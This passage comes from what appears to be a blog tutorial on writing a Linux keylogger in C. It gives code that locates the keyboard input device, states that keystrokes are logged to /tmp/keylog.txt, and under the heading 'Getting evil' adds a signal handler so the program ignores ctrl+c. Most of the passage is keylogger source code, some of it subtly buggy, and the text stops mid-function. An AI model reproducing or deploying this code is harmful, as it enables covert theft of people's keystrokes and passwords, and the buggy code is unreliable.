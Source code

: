 CODE:- `utils/keyboard.c` (get keyboard device from the directory)
```
char* get_me_a_keyboard()
{
  struct dirent **namelist;
  int n=0,i=0;
  n = scandir(INPUT_EVENT_DIR, &namelist, NULL, alphasort); // read the directory for the files
  if(n==-1)
  {
    // perror("Scandir Failed!!\n");
    exit(EXIT_FAILURE);
  }
  if(n<=2){
    // perror("No devices found!!\n");
    exit(EXIT_FAILURE);
  }
  // printf("[ * ] %d Devices found !!\n",n-2);
  for(i=0; i<n; i++)
    if( namelist[i]->d_name == "." || namelist[i]->d_name == "..") // skip for . and ..
      continue;
    else if(strstr(namelist[i]->d_name,"kbd")) // check if the filename has "kbd" (keyboard) in it
      break;  // if yes, do not look further

  return namelist[i]->d_name; // and return keyboard file name to caller function
}
```
After compiling and executing the binary. We get **logging - logged** message on the terminal and the actual log is being stored in `/tmp/keylog.txt` file - as mentioned in `basic_keylogger.h` file.

![](https://cdn-images-1.medium.com/max/640/1*ikK7hBwfMweto2rYqhaBFg.png)

![](https://cdn-images-1.medium.com/max/640/1*8wYAQGNMNS7TymthEnSb6g.png)

---

### What next? ...Getting evil!!

We can close the program by pressing *ctrl+c* or send it to background by *ctrl+z*. These key combinations send a signal to the process to close.
And we can handle these signals in our code.... using `signal.h` header file. (import this in the code.)

CODE - `basic_keylogger.c` (added signal handlers)

```
#include "basic_keylogger.h"

// Signal handler function
void signal_handler(int sig) {
  printf("Sorry, But I won't exit.\n");
}

int main(void) {
  errno = 0;

  struct sigaction signal; // create signal action struct
  signal.sa_handler = signal_handler; // initialize the handler function
  sigaction(SIGINT, &signal, NULL); // assign the signal action to a specific signal

  struct input_event ev;
  char* kbd = get_me_a_keyboard(); // Get keyboard name
  char* kbd_path = concat(INPUT_EVENT_DIR, kbd); // Get complete path for keyboard

  int fd = open(kbd_path, O_RDONLY);
  if(fd == -1)
```